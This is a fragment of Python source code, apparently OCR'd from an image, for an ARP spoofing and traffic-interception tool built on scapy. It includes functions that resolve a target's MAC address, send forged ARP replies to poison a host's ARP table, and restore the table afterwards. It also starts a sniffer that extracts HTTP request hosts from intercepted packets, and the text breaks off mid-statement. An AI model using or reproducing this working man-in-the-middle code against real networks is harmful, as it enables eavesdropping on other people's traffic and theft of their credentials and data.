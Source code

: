 ```python
        """Get MAC address of given IP using ARP request"""
        try:
            # Create ARP request packet
            arp_request = scapy.ARP(pdst=ip)
            broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
            arp_request_broadcast = broadcast / arp_request
            
            # Send packet and receive response
            answered_list = scapy.srp(arp_request_broadcast, 
                                    timeout=2, verbose=False)[0]
            
            if answered_list:
                return answered_list[0][1].hwsrc
            else:
                print(f"❌ Could not get MAC address for {ip}")
                return None
                
        except Exception as e:
            print(f"❌ Error getting MAC address: {e}")
            return None
    
    def spoof_arp(self, target_ip, spoof_ip):
        """Send spoofed ARP response"""
        try:
            # Get target's MAC address
            target_mac = self.get_mac_address(target_ip)
            if not target_mac:
                return False
                
            # Create spoofed ARP packet
            packet = scapy.ARP(op=2, pdst=target_ip, 
                             hwdst=target_mac, psrc=spoof_ip)
            
            # Send spoofed packet
            scapy.send(packet, verbose=False)
            return True
            
        except Exception as e:
            print(f"❌ ARP spoofing error: {e}")
            return False
    
    def restore_arp_table(self, destination_ip, source_ip):
        """Restore original ARP table entries"""
        try:
            destination_mac = self.get_mac_address(destination_ip)
            source_mac = self.get_mac_address(source_ip)
            
            if destination_mac and source_mac:
                packet = scapy.ARP(op=2, pdst=destination_ip,
                                 hwdst=destination_mac, psrc=source_ip,
                                 hwsrc=source_mac)
                scapy.send(packet, count=4, verbose=False)
                print(f"✅ ARP table restored for {destination_ip}")
                
        except Exception as e:
            print(f"❌ Error restoring ARP table: {e}")
    
    def packet_sniffer(self, packet):
        """Analyze intercepted packets"""
        try:
            if packet.haslayer(http.HTTPRequest):
                # Extract HTTP request information
                url = packet[http.HTTPRequest].Host.decode() + \
```